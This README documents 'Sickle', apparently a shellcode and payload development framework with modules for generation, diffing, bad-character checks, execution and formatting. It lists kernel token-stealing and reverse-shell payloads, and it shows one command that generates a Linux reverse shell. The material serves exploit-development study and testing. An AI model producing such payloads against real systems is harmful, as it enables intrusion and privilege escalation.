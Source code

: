 # Sickle

![alt text](./docs/logo/panda_logo.png)

Sickle is a tool I originally developed to help me be more effective, in both developing and understanding shellcode. However, throughout the course of its development and usage It has evolved into a payload development framework. Although current modules are mostly aimed towards assembly, this tool is not limited to shellcode.

Currently sickle can assist in the following.

- Shellcode Generation
- Diffing
- Bad Character Identification
- Shellcode Execution
- Disassembly
- Shellcode Extraction

**WARNING**: Sickle is currently undergoing massive changes to support shellcode generation. For a stable version, please use the latest release.

## Shellcode Generation

Sickle supports shellcode generation via the [Keystone Engine](https://www.keystone-engine.org/). Due to this being a newly added feature, payload support is limited.

![alt text](./docs/screenshots/generation.gif)

## Diffing

This functionality of sickle was originally implemented to aid me in understanding public shellcode stubs. When assembly diffing is performed the diff will occur on both the assembly and opcode level individually.

![alt text](./docs/screenshots/diff_shellcode.png)

Additionally, sickle supports multiple modes in which to perform the diff and can be useful even outside of shellcode development. Notably sickle currently supports both Windows and Linux for all modules not just diffing.

![alt text](./docs/screenshots/hexdump_diff.png)

## Shellcode Execution

A task you may find yourself doing repeatedly is testing your shellcode. These steps normally involve:

1. Compiling assembly language
2. Extracting shellcode into the proper format for your respective wrapper
3. Compiling the wrapper
4. Executing it

Although these steps may not seem like a lot they add up when you do them over and over until you get your expected outcome. Sickle takes care of placing the shellcode into a wrapper for quick testing and works on both Windows and Unix systems.

![alt text](./docs/screenshots/r.png)

## Disassembly

Sickle can also take a binary file and convert the extracted opcodes (shellcode) to machine instructions (assembly). Keep in mind this works with raw binary only and disassembly is currently only done in a linear fashion.

![alt text](./docs/screenshots/disassemble.png)

Shown above the module disassembles a reverse shell designed by Stephen Fewer to assembly.

## Shellcode Extraction

Shellcode extraction was the first module or rather functionality for sickle as opcodes are interpreted differently depending on the wrapper you are using. You cannot expect JavaScript to store and interpret shellcode the same way a C program would.

![alt text](./docs/gifs/format.gif)

Perhaps the biggest inspiration for this was `msfvenom`.

## Bad Character Identification

Although not prevalent in 64bit exploits there may be times an exploit restricts certain characters from being used. This is where the pinpoint module shines as it directly shows the assembly instructions responsible for the identified bad character.

![alt text](./docs/gifs/pinpoint.gif)

# Module Based Design

This tool was originally designed as a one big script, however as the tool evolved, I found myself needing to re-learn my code every update. As such, sickle now follows a modular approach with the goal being to implement new functionality as needed with minimal time spent re-learning sickles design.

```
$ sickle -l

  Shellcode                                                                        Description
  ---------                                                                        -----------
  windows/x64/kernel_token_stealer                                                 Kernel token stealing shellcode (Windows x64)
  windows/x64/kernel_sysret                                                        Kernel shellcode for returning to user-mode from kernel-mode
  windows/x64/kernel_ace_edit                                                      Kernel shellcode to modify the _SECURITY_DESCRIPTOR of a process
  windows/x64/shell_reverse_tcp                                                    TCP based reverse shell over IPV4 which returns an interactive cmd.exe session
  windows/x86/kernel_token_stealer                                                 Kernel token stealing shellcode (Windows x86)
  linux/aarch64/shell_reverse_tcp                                                  TCP based reverse shell over IPV4 which returns an interactive /bin/sh session (Linux AARCH64)
  linux/x86/shell_reverse_tcp                                                      TCP based reverse shell over IPV4 which returns an interactive /bin/sh session (Linux x86)

  Modules             Description
  -------             -----------
  asm_shell           Interactive assembler and disassembler
  disassemble         Simple linear disassembler for multiple architectures
  diff                Bytecode diffing too for comparing two binaries (or shellcode)
  format              Converts bytecode into a respective format
  run                 Wrapper used for executing bytecode
  badchar             Generates bad characters for bad character validation
  pinpoint            Highlight bad characters within a disassembly to id bad characters

  Format              Description
  ------              -----------
  c                   Format bytecode for a C application
  java                Format bytecode for Java
  hex                 Format bytecode in hex
  num                 Format bytecode in num format
  powershell          Format bytecode for Powershell
  bash                Format bytecode for bash script (UNIX)
  nasm                Format bytecode for NASM
  raw                 Format bytecode to be written to stdout in raw form
  python3             Format bytecode for Python3
  cs                  Format bytecode for C#
  python              Format bytecode for Python
  uint8array          Format bytecode for Javascript as a Uint8Array directly
  hex_space           Format bytecode in hex, seperated by a space
  dword               Format bytecode in dword
  escaped             Format bytecode for one-liner hex escape paste
  javascript          Format bytecode for Javascript (Blob to send via XHR)
  perl                Format bytecode for Perl
  ruby                Format bytecode for Ruby
```

Allowing for a way to self-document each functionality provided by respective modules.

```
$ sickle -i -m run                            

Usage information for run

              Name: Shellcode Runner
            Module: run
      Architecture: Multi
          Platform: Multi
              Ring: 3

Author(s):
    wetw0rk

Tested against:
    Linux
    Windows

Description:
    
    Executes bytecode from a binary file (-r) or a payload module (-p) under the
    context of the currently running operating system and architecture. Meaning if
    you are running on AARCH64 bytecode will be interpreted as such and if your on
    x64 it will interpret it as x64 respectively.
    
Example:

    sickle.py -m run -r shellcode
```


This also includes shellcode stubs.

```
$ sickle -i -p linux/aarch64/shell_reverse_tcp

Usage information for linux/aarch64/shell_reverse_tcp

              Name: Linux (AARCH64 or ARM64) SH Reverse Shell
            Module: linux/aarch64/shell_reverse_tcp
      Architecture: aarch64
          Platform: Linux
              Ring: 3

Author(s):
    wetw0rk

Tested against:
    Kali Linux

Argument Information

  Argument Name        Argument Description                               Optional
  -------------        --------------------                               --------
  LHOST                Listener host to receive the callback              no
  LPORT                Listening port on listener host                    yes

Description:
    
    Simple reverse shellcode that will spawn a connection back to a listening tcp
    server. Connection is made via TCP over IPV4.
    
Example:

    sickle.py -p linux/aarch64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -f c
```
